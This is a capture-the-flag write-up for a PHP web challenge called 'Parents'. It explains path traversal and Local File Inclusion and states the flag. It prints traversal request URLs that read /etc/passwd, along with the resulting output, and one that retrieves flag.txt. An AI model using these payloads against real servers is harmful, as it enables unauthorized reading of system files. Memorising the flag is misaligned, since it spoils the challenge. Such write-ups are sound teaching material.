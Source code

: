![img](../../assets/banner.png)

<img src="../../assets/cyberhax.png" style="margin-left: 20px; zoom: 80%;" align=left />
<font size="10">Parents ..</font>

8<sup>th</sup> February 2024

​Prepared By: FROST8ytes

​Challenge Author(s): FROST8ytes

​Difficulty: <font color=green>Hard</font>

Flag: `Cyberhax{th3_m0r3_th3_m3rr13r}`

## Synopsis

This challenge contains an interactive family tree and an about page.

## Description

Sometimes our ancestors have more knowledge than we do. Perhaps if we can *reach our root*, we will learn more and get what we are looking for. Maybe our root will know what `flag.txt` contains :)

Flag example: `Cyberhax{3x4mp13_f14g_h3r3}`

Disclaimer: No bruteforce is needed.

## Skills Required

- Basic Google-ing skills
- Critical reading skills

## Skills Learned

- Local File Inclusion (LFI)
- Path Traversal

## Application Overview

![img](./overview.png)

### Visiting the Website

The website reveals an interactive family tree with a disabled search bar. It also has an About page.

By clicking the About page, `?p=about.php` is appended to the URL. When we click back to Home, `?p=home.php` is appended to the URL.

This gives a hint that the website is written in PHP.

### Researching Vulnerabilities

By researching common vulnerabilities in PHP websites, specifically for CTFs, we come across [this](https://book.hacktricks.xyz/pentesting-web/file-inclusion#basic-lfi-and-bypasses) guide regarding Local File Inclusion. Let's test it out.

### Testing Theory

To test whether the website is vulnerable to LFI or not, we can traverse all the way to root by using relative paths. We can nagivate through parent directories by using `..`.

Let's try to view a common file for Linux (which is what most servers run on). It is `/etc/passwd`. We get the following response after visiting `http://<challenge URL>/?p=../../../../../../etc/passwd`:

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Since the passwd file is being displayed, we can conclude that the website is vulnerable to LFI. Now, let's retrieve our flag at `http://<challenge URL>/?p=../../../../../../flag.txt`!